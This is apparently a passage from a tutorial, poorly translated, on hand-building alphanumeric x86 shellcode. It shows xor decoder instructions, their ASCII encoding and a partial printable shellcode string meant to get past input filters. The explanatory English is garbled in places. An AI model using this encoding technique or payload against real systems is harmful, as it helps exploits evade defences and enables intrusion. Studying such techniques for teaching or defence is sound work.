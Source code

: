 ```asm
xor [eax + 75], bh
push word 0x5050
pop dx
xor [eax +75], dh
```



All these instructions decode our shellcode! Luckily, only 50 are used to xorer, it is not always the case, especially if you want to alphanumeric shellcode or write your own sentence.
So we can consolidate identical xor push word 0x5050 are there for example in case we do xorer could not all bytes with 50.

This gives us:

```asm
xor [eax + 41], bh
xor [eax + 43], bh
xor [eax + 45], bh
xor [eax + 47], bh
xor [eax + 48], bh
push word 0x5050
pop dx
xor [eax + 49], dh
xor [eax +51], dh
xor [eax + 62], bh
xor [eax + 63], bh
xor [eax + 63], dh
xor [eax + 64], bh
xor [eax + 65], dh
xor [eax + 66], bh
xor [eax + 67], dh
xor [eax + 68], bh
xor [eax + 69], bh
xor [eax + 69], dh
xor [eax + 71], bh
xor [eax + 72], bh
xor [eax + 73], dh
xor [eax + 74], bh
xor [eax + 75], bh
xor [eax + 75], dh
```



Ascii: 0x) 0x 0 x-0x/0x0fhPPfZ0p10p30x> 0x? 0p? 0x @ 0pA0xB0pC0xD0xE0pE0xG0xH0pI0xJ0xK0pK

Our ascii shellcode looks for the moment

```
LLLLZhAGIXX5AGIXHTYRQRPTUVWa
0x)0x0x-0x/0x0fhPPfZ0p10p30x>0x?0p?0x@ 0pA0xB0pC0xD0xE0pE0xG0xH0pI0xJ0xK0pK
1?161-MYjZhthanhjonavNLQOT2$1/$1OQ2/
```


